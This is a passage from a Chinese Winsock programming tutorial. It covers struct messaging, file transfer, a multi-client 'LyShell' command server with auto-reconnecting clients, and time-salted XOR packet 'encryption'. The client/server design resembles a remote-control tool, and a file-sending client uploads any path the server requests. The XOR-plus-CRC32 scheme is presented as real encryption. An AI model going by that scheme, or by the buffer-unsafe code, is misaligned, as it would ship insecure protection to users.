#include <winsock2.h>
#include <WS2tcpip.h>

#pragma comment(lib,"ws2_32.lib")

typedef struct
{
  int command_int_a;
  int command_int_b;
  int command_int_c;
  int command_int_d;

  unsigned int command_uint_a;
  unsigned int command_uint_b;

  char command_string_a[256];
  char command_string_b[256];
  char command_string_c[256];
  char command_string_d[256];

  int flag;
  int count;
}send_recv_struct;

// 调用接收函数
BOOL RecvFunction(SOCKET &sock)
{
  // 接收数据
  char recv_buffer[8192] = { 0 };
  int recv_flag = recv(sock, (char *)&recv_buffer, sizeof(send_recv_struct), 0);
  if (recv_flag <= 0)
  {
    return FALSE;
  }

  send_recv_struct *buffer = (send_recv_struct *)recv_buffer;

  std::cout << "接收参数A: " << buffer->command_int_a << std::endl;

  // 接收后判断,判断后发送标志或携带参数
  if (buffer->command_int_a == 10 && buffer->command_int_b == 20)
  {
    send_recv_struct send_buffer = { 0 };
    send_buffer.flag = 1;
    strcpy(send_buffer.command_string_a, "hello lyshark");

    // 发送数据
    int send_flag = send(sock, (char *)&send_buffer, sizeof(send_recv_struct), 0);
    if (send_flag <= 0)
    {
      return FALSE;
    }
  }
  else
  {
    send_recv_struct send_buffer = { 0 };
    send_buffer.flag = 0;

    // 发送数据
    int send_flag = send(sock, (char *)&send_buffer, sizeof(send_recv_struct), 0);
    if (send_flag <= 0)
    {
      return FALSE;
    }

    return FALSE;
  }
  return TRUE;
}

int main(int argc, char *argv[])
{
  WSADATA WSAData;

  if (WSAStartup(MAKEWORD(2, 0), &WSAData) == SOCKET_ERROR)
  {
    std::cout << "WSA动态库初始化失败" << std::endl;
    return 0;
  }

  SOCKET server_socket;

  if ((server_socket = socket(AF_INET, SOCK_STREAM, 0)) == ERROR)
  {
    std::cout << "Socket 创建失败" << std::endl;
    WSACleanup();
    return 0;
  }

  struct sockaddr_in ServerAddr;
  ServerAddr.sin_family = AF_INET;
  ServerAddr.sin_port = htons(9999);
  ServerAddr.sin_addr.s_addr = inet_addr("127.0.0.1");

  if (bind(server_socket, (LPSOCKADDR)&ServerAddr, sizeof(ServerAddr)) == SOCKET_ERROR)
  {
    std::cout << "绑定套接字失败" << std::endl;
    closesocket(server_socket);
    WSACleanup();
    return 0;
  }

  if (listen(server_socket, 10) == SOCKET_ERROR)
  {
    std::cout << "侦听套接字失败" << std::endl;
    closesocket(server_socket);
    WSACleanup();
    return 0;
  }

  SOCKET message_socket;

  char buf[8192] = { 0 };

  if ((message_socket = accept(server_socket, (LPSOCKADDR)0, (int*)0)) == INVALID_SOCKET)
  {
    return 0;
  }

  send_recv_struct recv_buffer = { 0 };

  // 接收对端数据到recv_buffer
  BOOL flag = RecvFunction(message_socket);
  std::cout << "接收状态: " << flag << std::endl;

  closesocket(message_socket);
  closesocket(server_socket);
  WSACleanup();
  return 0;
}
```

#### 14.8.2 客户端实现

对于客户端而言，其与服务端保持一致，只需要封装一个对等的`SendFunction`函数，该函数使用`send`函数将一个`send_recv_struct`类型的指针`send_ptr`发送到指定的`socket`连接通道。在发送完成后，函数使用`recv`函数从`socket`连接通道接收数据，并将其存储到一个`char`型数组`recv_buffer`中。接下来，该函数使用`send_recv_struct`类型的指针`buffer`将该`char`型数组中的数据复制到一个新的`send_recv_struct`类型的结构体变量`recv_ptr`中，最后返回一个`BOOL`类型的布尔值，表示发送接收函数是否成功执行。

```c
#include <iostream>
#include <winsock2.h>

#pragma comment(lib,"ws2_32.lib")

typedef struct
{
  int command_int_a;
  int command_int_b;
  int command_int_c;
  int command_int_d;

  unsigned int command_uint_a;
  unsigned int command_uint_b;

  char command_string_a[256];
  char command_string_b[256];
  char command_string_c[256];
  char command_string_d[256];

  int flag;
  int count;
}send_recv_struct;

// 调用发送接收函数
BOOL SendFunction(SOCKET &sock, send_recv_struct &send_ptr, send_recv_struct &recv_ptr)
{
  // 发送数据
  int send_flag = send(sock, (char *)&send_ptr, sizeof(send_recv_struct), 0);
  if (send_flag <= 0)
  {
    return FALSE;
  }

  // 接收数据
  char recv_buffer[8192] = { 0 };
  int recv_flag = recv(sock, (char *)&recv_buffer, sizeof(send_recv_struct), 0);
  if (recv_flag <= 0)
  {
    return FALSE;
  }

  send_recv_struct *buffer = (send_recv_struct *)recv_buffer;
  memcpy((void *)&recv_ptr, buffer, sizeof(send_recv_struct));
  return TRUE;
}

int main(int argc, char* argv[])
{
  WSADATA WSAData;
  if (WSAStartup(MAKEWORD(2, 0), &WSAData) == SOCKET_ERROR)
  {
    return 0;
  }
  SOCKET client_socket;
  if ((client_socket = socket(AF_INET, SOCK_STREAM, 0)) == SOCKET_ERROR)
  {
    WSACleanup();
    return 0;
  }

  struct sockaddr_in ClientAddr;
  ClientAddr.sin_family = AF_INET;
  ClientAddr.sin_port = htons(9999);
  ClientAddr.sin_addr.s_addr = inet_addr("127.0.0.1");
  if (connect(client_socket, (LPSOCKADDR)&ClientAddr, sizeof(ClientAddr)) == SOCKET_ERROR)
  {
    closesocket(client_socket);
    WSACleanup();
    return 0;
  }

  send_recv_struct send_buffer = {0};
  send_recv_struct response_buffer = { 0 };

  // 填充发送数据包
  send_buffer.command_int_a = 10;
  send_buffer.command_int_b = 20;
  send_buffer.flag = 0;

  // 发送数据包,并接收返回结果
  BOOL flag = SendFunction(client_socket, send_buffer, response_buffer);
  if (flag == FALSE)
  {
    return 0;
  }

  std::cout << "响应状态: " << response_buffer.flag << std::endl;
  if (response_buffer.flag == 1)
  {
    std::cout << "响应数据: " << response_buffer.command_string_a << std::endl;
  }

  closesocket(client_socket);
  WSACleanup();
  return 0;
}
```

运行上述代码片段，读者可看到如下图所示的输出信息；



### 14.9 Socket 高效文件传输

网络上的文件传输功能也是很有必要实现一下的，网络传输文件的过程通常分为客户端和服务器端两部分。客户端可以选择上传或下载文件，将文件分块并逐块发送到服务器，或者从服务器分块地接收文件。服务器端接收来自客户端的请求，根据请求类型执行对应的操作，并根据发送的文件名或其他标识来确定要传输的文件。

在实现文件传输之前，需要先打开要传输的文件，并获取文件的大小信息，也可以通过其他方式获取文件的信息。在客户端和服务器端都准备就绪后，可以通过套接字来发送文件数据。在传输文件的过程中，可以将文件分解为若干个数据包进行传输，以减少数据传输中的丢包或传输错误。每个数据包的长度可以根据实际情况进行选择，通常选择`1024`字节或更大，也可以设置成更小的值。传输文件的过程中，还需要实现一定的错误处理机制，例如检测传输过程中的超时、丢包、不完整数据等情况，并在必要时进行错误重传或协商其他解决方案。

首先无论时服务端还是客户端都需要封装两个函数，其中`GetFileName()`函数用于当用户传入文件的具体路径信息时自动获取到该文件的文件名，第二个函数`GetFileSize()`则用于传入文件路径并自动获取到该文件的字节数。
```c
// 传入路径得到文件名
char* GetFileName(char* Path)
{
  if (strchr(Path, '\\'))
  {
    char ch = '\\';
    char* ref = strrchr(Path, ch) + 1;
    return ref;
  }
  else
  {
    char ch = '/';
    char* ref = strrchr(Path, ch) + 1;
    return ref;
  }
}

// 获取文件大小
int GetFileSize(std::string FileName)
{
  FILE* pointer = NULL;
  pointer = fopen(FileName.c_str(), "rb");
  if (pointer != NULL)
  {
    fseek(pointer, 0, SEEK_END);
    int size = ftell(pointer);
    fclose(pointer);
    return size;
  }
  return 0;
}
```

接着我们来看一下`RecvFile()`接收文件函数是如何实现的，首先第一个发送用于向服务端发出我需要下载具体的那个目录下的文件，接着服务端会返回该目录文件的长度，此时我们通过`fopen()`创建一个新文件，并以此循环接收该文件的长度，每次接收成功后自动的`fwrite`写出到文件中，当文件被接收完毕后，则通过`fclose(pointer)`保存并关闭文件。
```c
// 接收文件
bool RecvFile(SOCKET ptr, char* LocalPath, char* RemoteFile)
{
  // 发送需要下载的文件路径
  send(ptr, RemoteFile, strlen(RemoteFile), 0);

  // 接收文件长度
  long long file_size = 0;
  recv(ptr, (char*)&file_size, sizeof(int), 0);
  if (file_size <= 0)
  {
    return false;
  }

  // 保存文件到指定目录下
  char *file_name = GetFileName(RemoteFile);
  char file_all_name[1024] = { 0 };

  strcat(file_all_name, LocalPath);
  strcat(file_all_name, file_name);

  std::cout << "生成保存路径: " << file_all_name << std::endl;
  FILE* pointer = fopen(file_all_name, "wb");
  char buffer[1024] = { 0 };

  if (pointer != NULL)
  {
    long long length = 0;
    long long total_length = 0;

    // 循环接收字节数据,每次接收1024字节
    while ((length = recv(ptr, buffer, 1024, 0)) > 0)
    {
      // 写出文件并判断是否写出成功
      if (fwrite(buffer, sizeof(char), length, pointer) < length)
      {
        break;
      }

      // 每次累加递增
      total_length += length;
      memset(buffer, 0, 1024);

      // 判断文件长度是否全部接收完毕
      if (total_length >= file_size)
      {
        std::cout << "文件接收完毕, 接收字节数: " << total_length << std::endl;
        fclose(pointer);
        return true;
      }
    }
    fclose(pointer);
  }
  return false;
}
```
对于`SendFile()`发送文件而言首先我们接收到客户端传来的文件路径，并通过该路径得到该文件的具体长度，第一次调用发送函数将文件的长度传递给客户端，此时打开我们所需要发送的文件，并通过循环的方式向客户端传输，当数据包传输完毕后则自动关闭文件。
```c
// 发送指定文件
bool SendFile(SOCKET ptr)
{
  // 接收文件路径
  char file_path[1024] = { 0 };
  recv(ptr, file_path, 1024, 0);

  // 得到文件长度并发送给服务端
  long long file_size = GetFileSize(file_path);

  if (file_size <= 0)
  {
    return false;
  }
  send(ptr, (char*)&file_size, sizeof(int), 0);
  std::cout << "发送文件长度: " << file_size << std::endl;

  // 循环发送数据
  char buffer[1024] = { 0 };
  FILE* pointer = fopen(file_path, "rb");
  if (pointer != NULL)
  {
    long long length = 0;
    long long total_length = 0;

    // 循环发送数据
    while ((length = fread(buffer, sizeof(char), 1024, pointer)) > 0)
    {
      send(ptr, buffer, length, 0);
      memset(buffer, 0, 1024);
      total_length += length;
    }

    if (total_length == file_size)
    {
      return true;
    }
  }
  return false;
}
```

#### 14.9.1 服务端实现

如下代码展示了如何使用`Winsock`进行TCP协议的文件传输。首先使用`WSAStartup`函数对`Winsock`库进行初始化。然后创建一个`socket`，设置IP地址、端口号等信息，并将该`socket`和本地服务端的地址绑定起来。接下来对该`socket`进行监听，等待客户端的连接请求。

当有客户端连接请求到来时，accept函数会接收请求，并创建一个新的`socket`与客户端进行通信。在与客户端通信的过程中，可以通过`send`和`recv`函数进行数据的传输，实现文件的上传和下载功能。此处的代码调用`RecvFile`函数，该函数为自定义实现的接收文件函数，负责接收数据并将接收到的文件存储到指定的路径下。

```c
int main(int argc, char* argv[])
{
  WSADATA wsaData;
  if (WSAStartup(MAKEWORD(2, 2), &wsaData) != 0)
    exit(1);

  // 声明并初始化一个服务端(本地)的地址结构 
  sockaddr_in server_addr;
  server_addr.sin_family = AF_INET;
  server_addr.sin_addr.S_un.S_addr = INADDR_ANY;
  server_addr.sin_port = htons(8087);

  // 创建socket 
  SOCKET m_Socket = socket(AF_INET, SOCK_STREAM, 0);
  if (SOCKET_ERROR == m_Socket)
    exit(1);

  // 绑定socket和服务端(本地)地址 
  if (SOCKET_ERROR == bind(m_Socket, (LPSOCKADDR)&server_addr, sizeof(server_addr)))
    exit(1);

  // 监听 
  if (SOCKET_ERROR == listen(m_Socket, 10))
    exit(1);

  sockaddr_in client_addr;
  int client_addr_len = sizeof(client_addr);

  SOCKET m_New_Socket = accept(m_Socket, (sockaddr*)&client_addr, &client_addr_len);

  // 接收远程d://lyshark.exe放到本地的d://11g/目录下
  bool ref = RecvFile(m_New_Socket, (char*)"d://11g/", (char*)"d://lyshark.exe");
  std::cout << "接收状态: " << ref << std::endl;

  closesocket(m_New_Socket);
  closesocket(m_Socket);

  WSACleanup();
  system("pause");
  return 0;
}
```

#### 14.9.2 客户端实现

如下客户端代码实现了一个基于TCP协议的文件传输客户端。首先使用`WSAStartup`函数对`Winsock`库进行初始化。然后创建一个socket，并设置服务端的IP地址和端口号。之后通过`connect`函数与服务端建立连接，连接成功后调用`SendFile`函数进行文件传输，将指定的文件发送到服务端。文件传输完成后，关闭`socket`连接，清除`Winsock`资源。

```c
int main(int argc, char* argv[])
{
  while (true)
  {
    WSADATA wsaData;
    if (WSAStartup(MAKEWORD(2, 2), &wsaData) != 0)
      exit(1);

    // 创建socket 
    SOCKET c_Socket = socket(AF_INET, SOCK_STREAM, 0);

    //指定服务端的地址 
    sockaddr_in server_addr;
    server_addr.sin_family = AF_INET;
    server_addr.sin_addr.S_un.S_addr = inet_addr("127.0.0.1");
    server_addr.sin_port = htons(8087);

    if (SOCKET_ERROR != connect(c_Socket, (LPSOCKADDR)&server_addr, sizeof(server_addr)))
    {
      bool ref = SendFile(c_Socket);
      std::cout << "文件发送状态: " << ref << std::endl;
    }
    closesocket(c_Socket);
    WSACleanup();
    Sleep(1000);
  }
  return 0;
}
```

文件传输功能代码就这些，其实理解起来并不难，读者可自行编译并运行上述代码，运行后则可接收远程`d://lyshark.exe`文件，并放到本地的`d://11g/`目录下，输出效果图如下；




### 14.10 Socket 选择套接字通信

对于网络通信中的服务端来说，显然不可能是一对一的，我们所希望的是服务端启用一份则可以选择性的与特定一个客户端通信，而当不需要与客户端通信时，则只需要将该套接字挂到链表中存储并等待后续操作，套接字服务端通过多线程实现存储套接字和选择通信，可以提高服务端的并发性能，使其能够同时处理多个客户端的请求。在实际应用场景中，这种技术被广泛应用于网络编程、互联网应用等领域。

该功能的具体实现思路可以总结为如下流程；

在服务端启动时，创建套接字并进行绑定，然后开启一个线程（称为主线程）用于监听客户端的连接请求。主线程在接收到新的连接请求后，会将对应的套接字加入一个数据结构（例如链表、队列、哈希表等）中进行存储。同时，主线程会将存储套接字的数据结构传递给每个子线程，并开启多个子线程进行服务，每个子线程从存储套接字的数据结构中取出套接字，然后通过套接字与客户端进行通信。

在选择通信方面，用户可以指定要与哪个客户端进行通信。服务端会在存储套接字的数据结构中寻找符合条件的套接字，然后将通信数据发送给对应的客户端。

首先为了能实现套接字的存储功能，此处我们需要定义一个`ClientInfo`该结构被定义的作用只有一个那就是存储套接字的`FD`句柄，以及该套接字的`IP`地址与端口信息，这个结构体应该定义为如下样子；

```c
typedef struct
{
  SOCKET client;
  sockaddr_in saddr;
  char address[128];
  unsigned short port;
}ClientInfo;
```

接着我们来看主函数中的实现，首先主函数中`listen`正常侦听套接字连接情况，当有新的套接字接入后则直接通过`CreateThread`函数开辟一个子线程，该子线程通过`EstablishConnect`函数挂在后台，在挂入后台之前通过`std::vector<ClientInfo *> info`全局变量用来保存套接字。

当读者需要发送数据时，只需要调用`SendMessageConnect`函数，函数接收一个套接字链表，并接收需要操作的`IP`地址信息，以及需要发送的数据包，当有了这些信息后，函数内部会首先依次根据`IP`地址判断是否是我们所需要通信的`IP`，如果是则从全局链表内取出套接字并发送数据包给特定的客户端。

弹出一个套接字调用`PopConnect`该函数接收一个全局链表，以及一个字符串`IP`地址，其内部通过枚举链表的方式寻找`IP`地址，如果找到了则直接使用`ptr.erase(it)`方法将找到的套接字弹出链表，并以此实现关闭通信的目的。

输出套接字元素时，通过调用`ShowList`函数实现，该函数内部首先通过循环枚举所有的套接字并依次`Ping`测试，如果发现存在掉线的套接字则直接剔除链表，如果没有掉线则客户端会反馈一个`pong`以表示自己还在，此时即可直接输出该套接字信息。

#### 14.10.1 服务端实现

服务端的实现方式在上述概述中已经简单介绍过了，服务端实现的原理概括起来就是，通过多线程技术等待客户端上线，当有客户端上线后就直接将其加入到全局链表内等待操作，主函数执行死循环，等待用户输入数据，用于选择与某个套接字通信。

```c
#include <iostream>
#include <WinSock2.h>
#include <WS2tcpip.h>
#include <string>
#include <vector>

#pragma comment(lib,"ws2_32.lib")

using namespace std;

typedef struct
{
  SOCKET client;
  sockaddr_in saddr;
  char address[128];
  unsigned short port;
}ClientInfo;

std::vector<ClientInfo *> info;       // 全局主机列表
SOCKET server;                        // 本地套接字
sockaddr_in sai_server;               // 存放服务器IP、端口

// 弹出下线的主机
void PopConnect(std::vector<ClientInfo *> &ptr, char *address)
{
  // 循环迭代器,查找需要弹出的元素
  for (std::vector<ClientInfo *>::iterator it = ptr.begin(); it != ptr.end(); it++)
  {
    ClientInfo *client = *it;

    // 如果找到了,则将其从链表中移除
    if (strcmp(client->address, address) == 0)
    {
      ptr.erase(it);
      // std::cout << "地址: " << client->address << " 已下线" << std::endl;
      return;
    }
  }
}

// 输出当前主机列表
void ShowList(std::vector<ClientInfo *> &ptr)
{
  for (int x = 0; x < ptr.size(); x++)
  {
    // 发送Ping信号,探测
    bool ref = send(ptr[x]->client, "Ping", 4, 0);
    if (ref != true)
    {
      PopConnect(info, ptr[x]->address);
      continue;
    }

    // 接收探测信号,看是否存活
    char ref_buf[32] = { 0 };
    recv(ptr[x]->client, ref_buf, 32, 0);
    if (strcmp(ref_buf, "Pong") != 0)
    {
      PopConnect(info, ptr[x]->address);
      continue;
    }
    std::cout << "主机: " << ptr[x]->address << " 端口: " << ptr[x]->port << std::endl;
  }
}

// 发送消息
void SendMessageConnect(std::vector<ClientInfo *> &ptr, char *address, char *send_data)
{
  for (int x = 0; x < ptr.size(); x++)
  {
    // std::cout << ptr[x]->address << std::endl;

    // 判断是否为需要发送的IP
    if (strcmp(ptr[x]->address, address) == 0)
    {
      // 对选中主机发送数据
      send(ptr[x]->client, send_data, strlen(send_data), 0);
      int error_send = GetLastError();
      if (error_send != 0)
      {
        // std::cout << ptr[x]->address << " 已离线" << endl;

        // 弹出元素
        PopConnect(info, address);
        return;
      }

      // 获取执行结果
      char recv_message[4096] = { 0 };
      recv(ptr[x]->client, recv_message, 4096, 0);
      std::cout << recv_message << std::endl;
    }
  }
}

// 建立套接字
void EstablishConnect()
{
  while (1)
  {
    ClientInfo* cInfo = new ClientInfo();
    int len_client = sizeof(sockaddr);

    cInfo->client = accept(server, (sockaddr*)&cInfo->saddr, &len_client);

    // 填充主机地址和端口
    char array_ip[20] = { 0 };

    inet_ntop(AF_INET, &cInfo->saddr.sin_addr, array_ip, 16);
    strcpy(cInfo->address, array_ip);
    cInfo->port = ntohs(cInfo->saddr.sin_port);

    info.push_back(cInfo);
  }
}

int main(int argc, char* argv[])
{
  // 初始化 WSA ，激活 socket
  WSADATA wsaData;
  WSAStartup(MAKEWORD(2, 2), &wsaData);

  // 初始化 socket、服务器信息
  server = socket(AF_INET, SOCK_STREAM, 0);
  sai_server.sin_addr.S_un.S_addr = 0;    // IP地址
  sai_server.sin_family = AF_INET;        // IPV4
  sai_server.sin_port = htons(8090);        // 传输协议端口

  // 本地地址关联套接字
  if (bind(server, (sockaddr*)&sai_server, sizeof(sai_server)))
  {
    WSACleanup();
  }

  // 套接字进入监听状态
  listen(server, SOMAXCONN);

  // 建立子线程实现侦听连接
  CreateThread(0, 0, (LPTHREAD_START_ROUTINE)EstablishConnect, 0, 0, 0);

  while (1)
  {
    char command[4096] = { 0 };

  input:
    memset(command, 0, 4096);
    std::cout << "[ LyShell ] # ";

    // 发送命令
    int inputLine = 0;
    while ((command[inputLine++] = getchar()) != '\n');
    if (strlen(command) == 1)
      goto input;

    // 输出主机列表
    if (strcmp(command, "list\n") == 0)
    {
      ShowList(info);
    }
    // 发送消息
    else if (strcmp(command, "send\n") == 0)
    {
      SendMessageConnect(info, "127.0.0.1", "Send");
    }
    // 发送CPU数据
    else if (strcmp(command, "GetCPU\n") == 0)
    {
      SendMessageConnect(info, "127.0.0.1", "GetCPU");
    }
    // 发送退出消息
    else if (strcmp(command, "Exit\n") == 0)
    {
      SendMessageConnect(info, "127.0.0.1", "Exit");
    }
  }
  return 0;
}
```

#### 14.10.2 客户端实现

客户端的实现与之前文章中的实现方式是一样的，由于客户端无需使用多线程技术所以在如下代码中我们只需要通过一个死循环每隔`5000`毫秒调用`connect`对服务端进行连接，如果没有连接成功则继续等待，如果连接成功了则直接进入内部死循环，在循环体内根据不同的命令执行不同的返回信息，如下是客户端实现完整代码片段。

```c
#include <iostream>
#include <WinSock2.h>
#include <WS2tcpip.h>
#include <string>

#pragma comment(lib,"ws2_32.lib")

using namespace std;

int main(int argc, char* argv[])
{
  while (1)
  {
    WSADATA WSAData;
    SOCKET sock;
    struct sockaddr_in ClientAddr;

    if (WSAStartup(MAKEWORD(2, 0), &WSAData) != SOCKET_ERROR)
    {
      ClientAddr.sin_family = AF_INET;
      ClientAddr.sin_port = htons(8090);
      ClientAddr.sin_addr.s_addr = inet_addr("127.0.0.1");

      sock = socket(AF_INET, SOCK_STREAM, 0);
      int Ret = connect(sock, (LPSOCKADDR)&ClientAddr, sizeof(ClientAddr));

      if (Ret == 0)
      {
        while (1)
        {
          char buf[4096] = { 0 };

          memset(buf, 0, sizeof(buf));
          recv(sock, buf, 4096, 0);

          // 获取CPU数据
          if (strcmp(buf, "GetCPU") == 0)
          {
            char* cpu_idea = "10%";
            int ServerRet = send(sock, cpu_idea, sizeof("10%"), 0);
            if (ServerRet != 0)
            {
              std::cout << "发送CPU数据包" << std::endl;
            }
          }

          // 发送消息
          else if (strcmp(buf, "Send") == 0)
          {
            char* message = "hello lyshark";
            int ServerRet = send(sock, message, sizeof("hello lyshark"), 0);
            if (ServerRet != 0)
            {
              std::cout << "发送消息数据包" << std::endl;
            }
          }

          // 终止客户端
          else if (strcmp(buf, "Exit") == 0)
          {
            closesocket(sock);
            WSACleanup();
            exit(0);
          }

          // 存活探测信号
          else if (strcmp(buf, "Ping") == 0)
          {
            int ServerRet = send(sock, "Pong", 4, 0);
            if (ServerRet != 0)
            {
              std::cout << "Ping 存活探测..." << std::endl;
            }
          }
        }
      }
    }
    closesocket(sock);
    WSACleanup();
    Sleep(5000);
  }
  return 0;
}
```

读者可自行编译并运行上述代码，当服务端启动后客户端上线，此时读者可根据输入不同的命令来操作不同的套接字，如下图所示；



### 14.11 Socket 基于时间加密通信

在之前的代码中我们并没有对套接字进行加密，在未加密状态下我们所有的通信内容都是明文传输的，这种方式在学习时可以使用但在真正的开发环境中必须要对数据包进行加密，此处笔者将演示一种基于时间的加密方法，该加密方法的优势是数据包中的内容每次发送均不一致，但数据包内的内容是一致的，其主要运用了基于当前时间戳的通信机制。

#### 14.11.1 实现加盐函数

加盐函数此处笔者采用基于时间的加盐方式，取出用户分钟数与秒数并生成随机数作为盐，通过三者的混合计算出一串解密密钥对，此方法的必须保证服务端与客户端时间同步，如果不同步则无法计算出正确的密钥对，解密也就无法继续了。

代码中函数`GenRandomString`用于实现生成一个随机数，该函数接受一个随机数长度并返回一个字符串。接着`GetPasswordSalt_OnSec`与`GetPasswordSalt_OnMin`函数分别用于根据当前秒与分钟生成一个随机的盐，函数`GetXorKey`则用于对特定一段字符串进行异或处理并生成一个Key，函数`CRC32`则用于对字符串计算得到一个哈希值。

```c
#include <WinSock2.h>
#include <Windows.h>
#include <iostream>
#include <random>
#include <time.h>

#pragma comment(lib,"ws2_32.lib")

using namespace std;

typedef struct
{
  char random[1024];
  char Buffer[4096];
}SocketPackage;

// 产生长度为length的随机字符串
char* GenRandomString(int length)
{
  int flag, i;
  char* string;
  srand((unsigned)time(NULL));
  if ((string = (char*)malloc(length)) == NULL)
  {
    return NULL;
  }

  for (i = 0; i < length - 1; i++)
  {
    flag = rand() % 3;
    switch (flag)
    {
    case 0:
      string[i] = 'A' + rand() % 26;
      break;
    case 1:
      string[i] = 'a' + rand() % 26;
      break;
    case 2:
      string[i] = '0' + rand() % 10;
      break;
    default:
      string[i] = 'x';
      break;
    }
  }
  string[length - 1] = '\0';
  return string;
}

// 通过秒数生成盐
int GetPasswordSalt_OnSec()
{
  time_t nowtime;
  struct tm* p;;
  time(&nowtime);
  p = localtime(&nowtime);
  if (p->tm_sec <= 10)
    return 2;
  else if (p->tm_sec > 10 && p->tm_sec <= 20)
    return 5;
  else if (p->tm_sec > 20 && p->tm_sec <= 30)
    return 8;
  else if (p->tm_sec > 30 && p->tm_sec <= 40)
    return 4;
  else if (p->tm_sec > 40 && p->tm_sec <= 50)
    return 9;
  else
    return 3;
}

// 通过分钟生成盐
int GetPasswordSalt_OnMin()
{
  time_t nowtime;
  struct tm* p;;
  time(&nowtime);
  p = localtime(&nowtime);
  return p->tm_min;
}

// 获取异或整数
long GetXorKey(const char* StrPasswd)
{
  char cCode[32] = { 0 };
  strcpy(cCode, StrPasswd);
  DWORD Xor_Key = 0;
  for (unsigned int x = 0; x < strlen(cCode); x++)
  {
    Xor_Key = Xor_Key + (GetPasswordSalt_OnSec() * GetPasswordSalt_OnMin()) + cCode[x];
  }
  return Xor_Key;
}

// 计算CRC32校验和
DWORD CRC32(char* ptr, DWORD Size)
{
  DWORD crcTable[256], crcTmp1;

  // 动态生成CRC-32表
  for (int i = 0; i < 256; i++)
  {
    crcTmp1 = i;
    for (int j = 8; j > 0; j--)
    {
      if (crcTmp1 & 1) crcTmp1 = (crcTmp1 >> 1) ^ 0xEDB88320L;
      else crcTmp1 >>= 1;
    }
    crcTable[i] = crcTmp1;
  }
  // 计算CRC32值
  DWORD crcTmp2 = 0xFFFFFFFF;
  while (Size--)
  {
    crcTmp2 = ((crcTmp2 >> 8) & 0x00FFFFFF) ^ crcTable[(crcTmp2 ^ (*ptr)) & 0xFF];
    ptr++;
  }
  return (crcTmp2 ^ 0xFFFFFFFF);
}

int main(int argc, char *argv[])
{
  // 生成一个随机数作为盐
  char* uuid = GenRandomString(7);
  std::cout << "随机数: " << uuid << std::endl;

  int sec_key = GetPasswordSalt_OnSec();
  std::cout << "根据秒数生成盐: " << sec_key << std::endl;

  int min_key = GetPasswordSalt_OnMin();
  std::cout << "根据分钟生成盐: " << min_key << std::endl;

  // 传入随机数作为密钥对,生成最终密钥
  long key = GetXorKey(uuid);
  std::cout << "最终密钥: " << key << std::endl;

  int crc32 = CRC32(uuid, 10);
  std::cout << "crc32: " << hex << crc32 << std::endl;

  system("pause");
  return 0;
}
```

#### 14.11.2 实现加密函数

对于加密函数`SendEncryptionPage`的实现流程，首先在发送数据包之前调用`GenRandomString()`生成一个7位的随机数，并将随机数拷贝到`pack.random`结构内，接着调用异或函数`GetXorKey(uuid)`生成加密密钥，并依次循环对`pack.Buffer`中的数据进行逐字节加密。最后将加密数据包发送出去，并接着计算该数据包的`CRC32`值，并再次通过`send()`函数将其发送给客户端。

```c
// 加密数据包并发送
bool SendEncryptionPage(SOCKET* ptr, char* send_data)
{
    char buf[8192] = { 0 };
    SocketPackage pack;

    memset(buf, 0, 8192);

    // 生成随机数并拷贝到结构体
    char* uuid = GenRandomString(7);
    strcpy(pack.random, uuid);
    std::cout << "[客户端] 本次随机密钥对: " << uuid << std::endl;

    // 生成并拷贝加密数据
    strcpy(pack.Buffer, send_data);

    int key = GetXorKey(uuid);
    std::cout << " --> 生成随机 key = " << key << std::endl;

    for (int x = 0; x < strlen(pack.Buffer); x++)
    {
        pack.Buffer[x] = pack.Buffer[x] ^ key;
    }

    // 加密数据包并发送
    memcpy(buf, &pack, sizeof(SocketPackage));
    send(*ptr, buf, sizeof(buf), 0);

    // 计算CRC32校验和,并发送给服务端
    DWORD crc32 = CRC32(buf, 100);
    char send_crc32[1024] = { 0 };
    sprintf(send_crc32, "%x", crc32);
    std::cout << " --> 发送CRC32校验和 = " << send_crc32 << std::endl;

    // 发送CRC32计算结果
    send(*ptr, send_crc32, sizeof(send_crc32), 0);
    return true;
}
```

#### 14.11.3 实现解密函数

解密函数`RecvDecryptPage`的实现流程与加密函数需要对应，首先当收到加密后的数据包时，该数据包会被存入`buf`变量内存储，并强制类型转为结构体。接着调用`GetXorKey`函数生成随机数，该随机数是通过本机时间通过分钟与秒数生成的盐，并与用户密码进行异或得到。通过接收服务器端发过来的`CRC32`校验码，比对原始数据包有没有被修改过，该校验码是服务端通过数据包生成的，最后客户端计算收到的数据包`CRC32`是否与服务端一致，一致则继续执行异或循环对数据包进行逐字节解包。

```c
// 接收数据包并解密
char* RecvDecryptPage(SOCKET *ptr)
{
    char buf[8192] = { 0 };

    // 接收加密后的数据包
    memset(buf, 0, sizeof(buf));
    recv(*ptr, buf, sizeof(buf), 0);
    SocketPackage* pack = (SocketPackage*)buf;

    // 接收随机数并获取异或密钥
    int key = GetXorKey(pack->random);
    std::cout << "[服务端] 基于时间计算 key = " << key << std::endl;

    // 服务端验证网络CRC32数据包是否一致
    char recv_crc32[1024] = { 0 };
    recv(*ptr, recv_crc32, sizeof(recv_crc32), 0);
    std::cout << "  --> 收到客户端CRC32校验和 = " << recv_crc32 << std::endl;

    // 计算CRC32是否与发送值一致
    DWORD crc32 = CRC32(buf, 100);
    char this_crc32[1024] = { 0 };
    sprintf(this_crc32, "%x", crc32);
    std::cout << "  --> 计算本地数据包CRC32校验和 = " << this_crc32 << std::endl;

    if (strcmp(recv_crc32, this_crc32) == 0)
    {
        std::cout << "  --> 校验和一致" << std::endl;

        // 开始解密数据包
        for (int x = 0; x < strlen(pack->Buffer); x++)
        {
            pack->Buffer[x] = pack->Buffer[x] ^ key;
        }

        std::cout << "    --> 解密后的数据: " << pack->Buffer << std::endl;
        std::cout << std::endl;
        return pack->Buffer;
    }
}
```

#### 14.11.4 数据加密收发

当有了上述完整加解密函数的封装之后读者就可以通过使用套接字的方法来实现数据包的通信，当需要接收数据时可以直接调用`RecvDecryptPage()`函数并传入当前活动套接字，而如果需要发送数据则也只需要调用`SendEncryptionPage()`函数即可，由于函数已被封装所以在传输数据时与普通套接字函数的使用没有任何区别。

针对服务端的主函数如下所示；
```c
int main(int argc, char* argv[])
{
    WSADATA WSAData;
    SOCKET sock, msgsock;
    struct sockaddr_in ServerAddr;

    if (WSAStartup(MAKEWORD(2, 0), &WSAData) != SOCKET_ERROR)
    {
        ServerAddr.sin_family = AF_INET;
        ServerAddr.sin_port = htons(9999);
        ServerAddr.sin_addr.s_addr = INADDR_ANY;

        sock = socket(AF_INET, SOCK_STREAM, 0);
        bind(sock, (LPSOCKADDR)&ServerAddr, sizeof(ServerAddr));
        listen(sock, 10);
    }

    while (1)
    {
        msgsock = accept(sock, (LPSOCKADDR)0, (int*)0);

